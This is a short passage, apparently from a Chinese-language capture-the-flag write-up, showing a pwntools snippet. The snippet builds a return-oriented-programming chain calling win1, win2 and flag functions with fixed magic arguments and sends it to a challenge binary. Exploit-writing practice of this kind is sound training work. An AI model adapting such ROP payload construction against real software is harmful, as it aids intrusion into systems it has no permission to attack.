 
使用 pwntools：

```python
rop.win1(0xdeadc0de)
rop.win2(0xdeadbeef, 0x98765432)
rop.flag(0x54545454)

p.sendline(rop.chain())
```

